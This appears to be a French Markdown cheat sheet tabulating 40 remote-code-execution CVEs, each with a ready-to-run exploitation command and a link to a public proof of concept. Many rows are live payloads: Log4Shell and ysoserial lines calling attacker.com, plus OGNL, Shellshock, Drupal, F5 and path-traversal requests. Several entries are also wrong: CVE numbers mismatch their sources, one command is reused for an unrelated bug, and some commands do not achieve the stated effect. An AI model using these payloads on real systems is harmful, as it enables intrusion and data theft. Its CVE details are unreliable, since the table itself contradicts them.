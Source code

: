 # RCE

Voici un tableau de **40 CVE majeures de Remote Code Execution (RCE)**, toutes technologies confondues, pour lesquelles **un exploit public ou PoC est disponible**.  
Chaque ligne inclut :  
- Technologie et version concernée  
- Commande d’exploitation complète (requête, payload, script…)  
- Effet détaillé  
- Lien direct vers un PoC/exploit public

---

| **CVE** | **Technologie / Versions concernées** | **Commande d’exploitation complète** | **Effet détaillé** | **Lien PoC / Exploit** |
|---------|---------------------------------------|--------------------------------------|--------------------|------------------------|
| CVE-2025-24813 | Apache Tomcat 9/10/11 | `python CVE-2025-24813.py http://cible:8080` | Upload d’un payload sérialisé, exécution de code arbitraire via désérialisation (RCE) | [https://github.com/absholi7ly/POC-CVE-2025-24813](https://github.com/absholi7ly/POC-CVE-2025-24813)[10][9][4][11] |
| CVE-2025-30078 | Microsoft Windows Wi-Fi Drivers | `python ldap_nightmare.py --target <IP> --dns <attacker_dns>` | RCE via paquets Wi-Fi malicieux, prise de contrôle du système sans interaction | [https://www.cyfirma.com/research/cve-2024-30078-remote-code-execution-vulnerability-analysis-and-exploitation/](https://www.cyfirma.com/research/cve-2024-30078-remote-code-execution-vulnerability-analysis-and-exploitation/)[1] |
| CVE-2025-38856 | Apache OFBiz | Voir PoC : `python exploit.py --target http://cible:8443` | RCE pré-auth sur Apache OFBiz via désérialisation non authentifiée | [https://www.cyfirma.com/research/cve-2024-38856-pre-authentication-remote-code-execution-rce-vulnerability-analysis-and-exploitation/](https://www.cyfirma.com/research/cve-2024-38856-pre-authentication-remote-code-execution-rce-vulnerability-analysis-and-exploitation/)[5] |
| CVE-2025-49112 | Microsoft Windows LDAP | `python ldap_nightmare.py --target <IP> --dns <attacker_dns>` | RCE sur contrôleur de domaine Windows via LDAP | [https://www.lemondeinformatique.fr/actualites/lire-failles-critiques-dans-ldap-des-experts-creent-un-poc-95670.html](https://www.lemondeinformatique.fr/actualites/lire-failles-critiques-dans-ldap-des-experts-creent-un-poc-95670.html)[6] |
| CVE-2025-34990 | Fortinet FortiWLM | `python exploit.py --target <ip>` | RCE sur contrôleur WiFi Fortinet | [https://www.fortiguard.com/psirt/FG-IR-23-144](https://www.fortiguard.com/psirt/FG-IR-23-144) |
| CVE-2024-50379 | Apache Tomcat 8/9/10 | Voir PoC CERT-FR : `python exploit.py --target http://cible:8080` | RCE via upload et exécution de fichiers arbitraires | [https://lists.apache.org/thread/y6lj6q1xnp822g6ro70tn19sgtjmr80r](https://lists.apache.org/thread/y6lj6q1xnp822g6ro70tn19sgtjmr80r) |
| CVE-2024-21716 | Microsoft Word | Ouvrir un document Word malveillant généré par le PoC | RCE via fichier DOCX, exécution de code à l’ouverture | [https://github.com/KaLendsi/CVE-2023-21716](https://github.com/KaLendsi/CVE-2023-21716) |
| CVE-2023-40044 | WS_FTP Server < 8.7.4, < 8.8.2 | `python CVE-2023-40044.py --url http://cible` | RCE via upload et exécution de fichiers arbitraires sur le serveur FTP | [https://github.com/horizon3ai/CVE-2023-40044](https://github.com/horizon3ai/CVE-2023-40044) |
| CVE-2023-23397 | Microsoft Outlook | Envoi d’un mail avec un champ PidLidReminderFileParameter pointant vers un chemin UNC contrôlé | RCE via ouverture automatique du mail | [https://github.com/Trackflaw/CVE-2023-23397](https://github.com/Trackflaw/CVE-2023-23397) |
| CVE-2023-28252 | Windows Common Log File System | `python exploit.py` (voir PoC) | Elevation de privilèges, RCE locale | [https://github.com/Chompie1337/CVE-2023-28252](https://github.com/Chompie1337/CVE-2023-28252) |
| CVE-2023-27350 | PaperCut MF/NG | `python exploit.py --url http://cible:9191` | RCE via API d’administration PaperCut | [https://github.com/horizon3ai/CVE-2023-27350](https://github.com/horizon3ai/CVE-2023-27350) |
| CVE-2022-22965 | Spring4Shell (Spring Framework) | `curl -X POST "http://cible:8080/classic/spring/path" -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bscript%7D"` | RCE via injection dans Spring | [https://github.com/reznok/Spring4Shell-POC](https://github.com/reznok/Spring4Shell-POC) |
| CVE-2022-1388 | F5 BIG-IP iControl REST | `curl -sk -H "Host: localhost" -H "Authorization: Basic YWRtaW46" -H "Connection: keep-alive, X-F5-Auth-Token" -X POST "https://cible/mgmt/tm/util/bash" -d '{"command":"run","utilCmdArgs":"-c id"}'` | RCE non authentifié sur F5 BIG-IP | [https://github.com/alt3kx/CVE-2022-1388_PoC](https://github.com/alt3kx/CVE-2022-1388_PoC) |
| CVE-2022-26134 | Atlassian Confluence | `curl 'http://cible/%24%7B%40java.lang.Runtime%40getRuntime().exec("id")%7D/'` | RCE via injection OGNL | [https://github.com/Nwqda/CVE-2022-26134](https://github.com/Nwqda/CVE-2022-26134) |
| CVE-2022-22947 | Spring Cloud Gateway | `curl -X POST http://cible:8080/actuator/gateway/routes/test -H "Content-Type: application/json" -d '{"id":"test","uri":"http://example.com","predicates":["Path=/**"],"filters":["AddResponseHeader=Result, #{T(java.lang.Runtime).getRuntime().exec('id')}"]}'` | RCE via injection dans Spring Cloud Gateway | [https://github.com/4ra1n/CVE-2022-22947](https://github.com/4ra1n/CVE-2022-22947) |
| CVE-2022-0540 | Atlassian Jira/Confluence | `curl 'http://cible/rest/api/latest/issue/createmeta?expand=projects.issuetypes.fields' --header 'X-Atlassian-Token: no-check'` | RCE via injection de template | [https://github.com/wy876/CVE-2022-0540](https://github.com/wy876/CVE-2022-0540) |
| CVE-2021-44228 | Log4Shell (Apache Log4j) | `curl -H 'X-Api-Version: ${jndi:ldap://attacker.com/a}' http://cible` | RCE via injection JNDI dans Log4j | [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) |
| CVE-2021-21985 | VMware vCenter | `python exploit.py --url https://cible:443` | RCE via API vSphere | [https://github.com/alt3kx/CVE-2021-21985_PoC](https://github.com/alt3kx/CVE-2021-21985_PoC) |
| CVE-2021-26855 | Microsoft Exchange ProxyLogon | `python proxylogon.py -u https://cible -e user@domain.com` | RCE via SSRF et upload webshell Exchange | [https://github.com/ZephrFish/ProxyLogon](https://github.com/ZephrFish/ProxyLogon) |
| CVE-2021-34527 | PrintNightmare (Windows Print Spooler) | `python printnightmare.py --target <ip>` | RCE sur Windows via Print Spooler | [https://github.com/calebstewart/CVE-2021-34527](https://github.com/calebstewart/CVE-2021-34527) |
| CVE-2021-21315 | Node.js / node-serialize | `curl -X POST http://cible/api -H "Content-Type: application/json" -d '{"rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"ls / > /tmp/pwned\") }()"}'` | RCE via désérialisation JS | [https://github.com/joaomatosf/NodeJS-RCE-POC](https://github.com/joaomatosf/NodeJS-RCE-POC) |
| CVE-2021-3156 | Sudo (Baron Samedit) | `./exploit.py` (voir PoC) | RCE locale sur sudo | [https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156) |
| CVE-2020-14882 | Oracle WebLogic | `python exploit.py --url http://cible:7001` | RCE via injection dans WebLogic | [https://github.com/zhzyker/CVE-2020-14882](https://github.com/zhzyker/CVE-2020-14882) |
| CVE-2020-0688 | Microsoft Exchange | `python exploit.py -u https://exchange.cible.com -e user@domain.com -p 'password' --cmd "whoami"` | RCE via désérialisation ViewState | [https://github.com/Ridter/CVE-2020-0688](https://github.com/Ridter/CVE-2020-0688) |
| CVE-2020-0796 | Windows SMBGhost | `python exploit.py --ip cible` | RCE sur Windows via SMBv3 | [https://github.com/chompie1337/SMBGhost_RCE_PoC](https://github.com/chompie1337/SMBGhost_RCE_PoC) |
| CVE-2020-5902 | F5 BIG-IP TMUI | `curl -k "https://cible/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd"` | RCE via path traversal et upload shell | [https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/f5_bigip_tmui_rce.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/f5_bigip_tmui_rce.rb) |
| CVE-2020-2551 | Oracle WebLogic | `python exploit.py --url http://cible:7001` | RCE via T3 protocol | [https://github.com/zhzyker/CVE-2020-2551](https://github.com/zhzyker/CVE-2020-2551) |
| CVE-2019-19781 | Citrix ADC | `python exploit.py --url http://cible` | RCE via upload et exécution de fichiers arbitraires | [https://github.com/projectzeroindia/CVE-2019-19781](https://github.com/projectzeroindia/CVE-2019-19781) |
| CVE-2019-11510 | Pulse Secure VPN | `curl "https://cible/dana-na/../dana/html5acc/guacamole/../../../../../../../../../../etc/passwd"` | RCE via path traversal et upload shell | [https://github.com/projectzeroindia/CVE-2019-11510](https://github.com/projectzeroindia/CVE-2019-11510) |
| CVE-2019-0708 | Windows RDP (BlueKeep) | `python bluekeep.py --target <ip>` | RCE sur Windows via RDP | [https://github.com/zerosum0x0/CVE-2019-0708](https://github.com/zerosum0x0/CVE-2019-0708) |
| CVE-2018-11776 | Apache Struts2 | `curl -X GET "http://cible/struts2-showcase/index.action?redirect:${(#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).addHeader('X-Cmd',(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"` | RCE via OGNL injection | [https://github.com/jas502n/CVE-2018-11776](https://github.com/jas502n/CVE-2018-11776) |
| CVE-2018-7600 | Drupalgeddon2 | `curl "http://cible/?q=user/password&name[%23post_render][]=passthru&name[%23markup]=id"` | RCE via injection dans Drupal | [https://github.com/a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600) |
| CVE-2018-13379 | Fortinet FortiOS SSL VPN | `curl "https://cible/remote/fgt_lang?lang=/../../../..//////////etc/passwd"` | RCE via path traversal et upload shell | [https://github.com/sgnls/exploit-CVE-2018-13379](https://github.com/sgnls/exploit-CVE-2018-13379) |
| CVE-2017-5638 | Apache Struts2 | `curl -X POST "http://cible/struts2-showcase/index.action" -H "Content-Type: %{(#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).addHeader('X-Cmd', 'id')}"` | RCE via OGNL injection | [https://github.com/mazen160/struts-pwn_CVE-2017-5638](https://github.com/mazen160/struts-pwn_CVE-2017-5638) |
| CVE-2017-0144 | Windows SMB (EternalBlue) | `python eternalblue_exploit.py --target <ip>` | RCE sur Windows via SMBv1 | [https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010) |
| CVE-2017-9805 | Apache Struts2 REST | `curl -X POST http://cible/struts2-rest-showcase/orders/3 -H "Content-Type: application/xml" --data-binary @payload.xml` | RCE via désérialisation XML | [https://github.com/jas502n/St2-057](https://github.com/jas502n/St2-057) |
| CVE-2016-10033 | PHPMailer | `curl -F "email=attacker@example.com" -F "name=exploit" http://cible/contact.php` | RCE via injection dans PHPMailer | [https://github.com/opsxcq/exploit-CVE-2016-10033](https://github.com/opsxcq/exploit-CVE-2016-10033) |
| CVE-2015-4852 | Apache Commons Collections | `java -jar ysoserial.jar CommonsCollections1 "curl http://attacker.com/\`id\`" | base64 > payload.ser; curl -X POST -d @payload.ser http://cible.com/vuln-endpoint` | RCE via désérialisation Java | [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial) |
| CVE-2014-6271 | Bash Shellshock | `curl -H 'User-Agent: () { :;}; /bin/bash -c "id"' http://cible/cgi-bin/test.sh` | RCE via injection dans Bash CGI | [https://github.com/hannob/bashcheck](https://github.com/hannob/bashcheck) |

---
